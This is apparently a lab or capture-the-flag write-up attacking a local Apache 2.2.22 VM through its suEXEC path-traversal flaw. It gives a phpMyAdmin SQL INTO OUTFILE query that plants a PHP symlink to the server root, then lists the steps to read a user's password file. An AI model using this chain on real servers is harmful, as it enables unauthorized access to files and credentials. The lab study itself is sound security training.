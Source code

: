 Apache is running with the version 2.2.22

After some research, we found this version is vulnerable. The suEXEC vulnerability is a path traversal. We can do a symlink with / and a php page to access a files the user www-data can read

Path checking code design error, subdirectory entry is determined via strncmp(), i.e. in addition to the directory "/var/www/html" described in the configuration, the check will also be successful for "/var/www/html_backup" or "/var/www/htmleditor".

We can found an exploit here : exploit-db.com/exploits/27397

We can exploit it by uploading a PHP page (with a SQL request in phpmyadmin like in the writeup2)
```SQL
SELECT 1, '<?php symlink(\"/\", \"paths.php\");?>' INTO OUTFILE '/var/www/forum/templates_c/run.php'
```

1. https://192.168.56.104/phpmyadmin/index.php -> db phpmyadmin -> `localhost -  phpmyadmin -  pma_bookmark "Bookmarks"` -> execute the SQL request
2. open https://192.168.56.104/forum/templates_c/run.php
3. open https://192.168.56.104/forum/templates_c/paths.php
4. open `/home/LOOKATME/password` https://192.168.56.104/forum/templates_c/paths.php/home/LOOKATME/password
